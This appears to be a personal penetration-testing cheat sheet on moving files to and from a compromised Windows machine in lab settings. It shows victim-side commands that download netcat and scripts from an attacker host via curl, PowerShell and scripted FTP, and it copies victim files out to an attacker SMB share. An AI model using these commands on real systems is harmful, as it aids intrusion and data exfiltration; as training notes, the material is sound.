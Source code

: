 ```yaml
---
description: >-
  Windows File Transfer various techniques
title: Windows File Transfer              # Add title here
date: 2023-01-29 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Windows - File Transfer]                     # Change Templates to Writeup
tags: [file transfer, windows upload, windows download]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Upload

Netcat execution for windows.
From victim machine:
```powershell
curl http://10.10.16.4/nc.exe -o nc.exe
```
Examples:
[[StreamIO#^40a776]]

### Network File System through SMB
First create with impacket the server locally on attacker machine:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```
Then you can access directly to this folder from the file explorer itself, by putting the address on the search bar:
```bash
\\192.168.119.186\shareFolder
```
![Description](/assets/img/Pasted image 20220907003801.png)
If by any chance we get the following error:
![Description](/assets/img/Pasted image 20230129045937.png)
We need to create a share with authentication to mount our share in the victim machine as another NFS:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support -username shuciran -password shuciran123
```
Next, to mount it on a NFS on the victim machine we execute the following command:
```bash
net use x: \\10.10.14.4\shareFolder /user:shuciran shuciran123
```
Then we can check if the x:\ NFS is mounted:
```bash
dir x:\
```

### Powershell
```powershell
powershell Invoke-WebRequest -Uri http://10.10.119.207/GetCLSID.ps1 -Outfile GetCLSID.ps1
```

# Download

### SMB
To download files from the victim machine all you need to do is to copy within the SMB Shared Folder:
```powershell
copy <file> \\192.168.119.186\shareFolder
```

### Non-Interactive FTP Download
For installation and setup on attack machine please refer to [[FTP Server]]
First, we will place a file in our /ftphome directory:
```bash
kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
```
We have already installed and configured Pure-FTPd on our Kali machine, but we will restart it to make sure the service is available:
```bash
kali@kali:~$ sudo systemctl restart pure-ftpd
```
Next execute following command:
```powershell
echo open 192.168.243.142 21> ftp.txt && echo USER offsec>> ftp.txt && echo password>> ftp.txt && echo bin >> ftp.txt && echo GET nc.exe >> ftp.txt && echo bye >> ftp.txt
```
Initiate FTP with commands on it:
```bash
C:\Users\offsec> ftp -v -n -s:ftp.txt
```
When the ftp command runs, our download should have executed, and a working copy of nc.exe should appear in our current directory:
```bash
C:\Users\offsec> ftp -v -n -s:ftp.txt
open 192.168.1.31 21
USER offsec
bin
GET nc.exe
bye
```




